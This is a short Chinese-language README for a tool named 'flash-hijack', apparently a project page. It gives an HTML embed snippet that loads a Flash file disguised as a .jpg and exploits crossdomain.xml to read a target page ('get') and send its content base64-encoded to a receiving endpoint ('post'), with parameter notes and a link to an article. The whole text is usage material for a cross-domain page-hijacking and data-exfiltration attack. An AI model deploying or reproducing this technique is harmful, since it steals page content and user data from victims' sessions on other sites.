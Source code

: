 # flash-hijack
flash 劫持轮子

使用：
HTML：

&lt;div&gt; 
&lt;embed src=&quot;http://www.baidu.com/hijack.jpg?jpg=http://127.0.0.1/1.png&get=http://127.0.0.1/l.php&post=http://127.0.0.1/2.php&quot; width=&quot;970&quot; height=&quot;107&quot; quality=&quot;high&quot; pluginspage=&quot;http://www.macromedia.com/go/getflashplayer&quot; type=&quot;application/x-shockwave-flash&quot; wmode=&quot;transparent&quot;&gt;&lt;/embed&gt; 
&lt;/object&gt; 
&lt;/div&gt;

参数说明:

jpg：域下的图片（为了优先加载crossdomain.xml，否则劫持的接口加载太慢会导致无法劫持）

get：劫持的接口或者页面

post：接收劫持过来的页面为base64传输

文章:https://zhuanlan.zhihu.com/p/67484852
